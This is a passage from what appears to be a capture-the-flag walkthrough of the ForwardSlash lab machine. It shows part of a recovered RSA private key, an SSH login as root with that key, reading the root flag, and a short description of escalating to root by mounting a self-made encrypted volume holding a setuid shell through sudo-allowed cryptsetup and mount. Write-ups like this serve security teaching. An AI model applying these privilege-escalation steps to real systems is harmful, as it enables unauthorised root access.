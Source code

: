    i2B/AlO4PrOHJtfSXIzsedmDNLoMqO5/n/xAqLAHAoGATnv8CBntt11JFYWvpSdq
    tT38SlWgjK77dEIC2/hb/J8RSItSkfbXrvu3dA5wAOGnqI2HDF5tr35JnR+s/JfW
    woUx/e7cnPO9FMyr6pbr5vlVf/nUBEde37nq3rZ9mlj3XiiW7G8i9thEAm471eEi
    /vpe2QfSkmk1XGdV/svbq/sCgYAZ6FZ1DLUylThYIDEW3bZDJxfjs2JEEkdko7mA
    1DXWb0fBno+KWmFZ+CmeIU+NaTmAx520BEd3xWIS1r8lQhVunLtGxPKvnZD+hToW
    J5IdZjWCxpIadMJfQPhqdJKBR3cRuLQFGLpxaSKBL3PJx1OID5KWMa1qSq/EUOOr
    OENgOQKBgD/mYgPSmbqpNZI0/B+6ua9kQJAH6JS44v+yFkHfNTW0M7UIjU7wkGQw
    ddMNjhpwVZ3//G6UhWSojUScQTERANt8R+J6dR0YfPzHnsDIoRc7IABQmxxygXDo
    ZoYDzlPAlwJmoPQXauRl1CgjlyHrVUTfS0AkQH2ZbqvK5/Metq8o
    -----END RSA PRIVATE KEY-----
    

### SSH

With this key, I can SSH as root into ForwardSlash:

    
    
    root@kali# ssh -i ~/keys/id_rsa_forwardslash_root root@10.10.10.183
    Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Mon Apr  6 14:56:56 UTC 2020
    
      System load:  0.01               Processes:            182
      Usage of /:   30.9% of 19.56GB   Users logged in:      1
      Memory usage: 21%                IP address for ens33: 10.10.10.183
      Swap usage:   0%
    
    
     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch
    
    16 packages can be updated.
    0 updates are security updates.
    
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    
    Last login: Sun Apr  5 20:49:44 2020 from 10.10.14.24
    root@forwardslash:~#
    

And grab `root.txt`:

    
    
    root@forwardslash:~# cat root.txt 
    cc37ab30************************
    

### Alternative Exploit sudo Luks

Because pain is able to run `cryptsetup` and `mount` as root, I can ignore
trying to open the encrypted volume on the box, and just create my own
instead. I’ll add a setuid shell to the volume, and then on mounting it, I can
get a root shell.
